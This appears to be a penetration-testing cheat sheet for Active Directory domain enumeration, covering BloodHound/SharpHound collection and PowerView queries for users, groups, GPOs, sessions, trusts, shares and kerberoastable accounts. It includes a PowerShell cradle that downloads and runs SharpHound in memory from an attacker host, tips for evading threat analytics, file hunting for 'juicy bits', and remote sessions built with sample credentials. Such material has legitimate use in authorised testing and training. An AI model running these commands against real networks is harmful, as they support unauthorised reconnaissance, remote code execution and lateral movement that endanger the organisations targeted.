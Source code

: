 ## Domain Enumeration

One of my favourite things to do when landing in an environment is to take stock of everything that's now available, accessible, what users have what permissions, what groups to try and move toward, etc. 

Naturally, as everyone knows, the most succinct way to accomplish this is by using the hound. Bloodhound is an exceptional tool with incredible capabilities. It can be run from the target in both Powershell and .NET formats, whilst also being executable locally from your attack box using the python version. Valid credentials are required to enumerate a domain with Bloodhound.

Follow the installation instructions at:
 https://bloodhound.readthedocs.io/en/latest/index.html 

Precompiled Sharphound is available at: 
 https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors 

Build from source using:
 https://github.com/BloodHoundAD/SharpHound3 

Get Bloodhound.py from:
 https://github.com/fox-it/BloodHound.py 

```bash
# Run bloodhound.py against MATRIX.LOCAL that has the IP 10.10.10.10
python3 bloodhound.py -u Toby -p 'Coff33*' -ns 10.10.10.10 -d MATRIX.LOCAL -c all --dns-tcp
python3 bloodhound.py -u Neo -p 'Passw0rd' -ns 10.10.10.10 -d MATRIX.local -c all --dns-tcp
```

```powershell
# Run Sharphound locally on a target using all collection methods + group policies (NOISY)
Sharphound.exe -c All,GPOLocalGroup
# Run Sharphound locally on different, trusted domain
Sharphound.exe -c All,GPOLocalGroup -d child.example.local

# Download and run Sharphound in memory with powershell
IEX((New-Object System.Net.WebClient).downloadString('http://10.10.10.10/Sharphound.ps1')); Invoke-BloodHound -CollectionMethod All

#Less noisy and avoids advanced threat analytics
Invoke-BloodHound -CollectionMethod All -ExcludeDC

#Only performs collections using LDAP - Best used at 9am or 1pm when everyone is logging back in
Invoke-BloodHound -CollectionMethod DcOnly 
```


## Manual Enumeration with PowerView

We can manually perform the enumeration using PowerView, or the .NET alternative SharpView.

 https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 

 https://github.com/tevora-threat/SharpView 

Remember! With all of these commands Powershell allows you to filter by piping the output and using `select` with column headings. 
```powershell
# Collect general domain information - Look for password policies and view parent domains
Get-Domain
Get-DomainController | Select Name
Get-DomainPolicyData | select -ExpandProperty SystemAccess 

# Get Forest Information
Get-ForestDomain

# Enumerate Users
Get-NetUser 
Get-NetUser Toby | Select samaccountname,memberof

# Enumerate Computers (I like to ping them after to resolve them to an IP)
Get-DomainComputer | Select DnsHostName

# Get Domain Groups
Get-DomainGroup | select SamAccountName

# Get members of a domain group
Get-DomainGroupMember -Identity "Management Users" | select MemberDistinguishedName

# Get Group Policy Objects in the domain or those applied to a specific computer
Get-DomainGPO | Select DisplayName
Get-DomainGPO -ComputerIdentity dc04.example.com | Select DisplayName

# Find GPOs mapped to Group Names
Get-DomainGPOLocalGroup -ResolveMembersToSIDs | select GPODisplayName, GroupName, GroupMemberOf, GroupMembers

# Find machines where a specific user or group are members of a specific local group
Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName

# Query all machines for users of a specific group that are currently logged in (Default: Domain Admin)
Find-DomainUserLocation | select UserName, SessionFromName

# Find session information for the remote machine. Omit computer name to run locally.
Get-NetSession -ComputerName dc04.example.com | select CName, UserName

# Get domain trust and directions. Remember trust flows in the opposite direction to access. 
Get-DomainTrust
Get-DomainTrust -Domain child.example.com

# Forest enumeration
Get-NetForest -Forest matrix.local

# Find shares in specific domain - Only show those we have access to as the executing user
Find-DomainShare -ComputerDomain MATRIX.LOCAL -CheckShareAccess
Invoke-Sharefinder -Verbose -ExcludeStandard -ExcludePrint -ExcludeIPC

# Find kerberoastable users
Get-NetUser | select samaccountname,serviceprincipalname

# Create a new user credential object to use in the domain
$passwd = ConvertTo-SecureString 'passw0rd' -AsPlainText -Force   
$creds = New-Object System.Management.Automation.PSCredential ("matrix\neo", $passwd) 
Enter-PSSession -ComputerName dc04 -Credential $creds

# Attempts to find files with juicy bits
Invoke-FileFinder -Verbose

# Ping using Powershell to find hosts
1..254 | ForEach-Object {Get-WmiObject Win32_PingStatus -Filter "Address='10.10.10.$_' and Timeout=200 and ResolveAddressNames='true' and StatusCode=0" | select ProtocolAddress*}
```